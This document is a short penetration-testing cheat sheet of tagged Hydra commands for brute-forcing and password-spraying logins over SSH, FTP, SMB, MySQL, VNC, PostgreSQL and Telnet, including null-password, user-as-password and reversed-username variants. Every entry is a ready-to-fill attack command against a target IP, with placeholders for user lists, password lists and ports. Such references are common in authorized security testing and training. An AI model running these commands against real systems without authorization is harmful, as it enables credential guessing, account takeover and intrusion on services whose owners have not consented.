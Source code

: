 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "login:pass" format - specify port
#plateform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_login_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

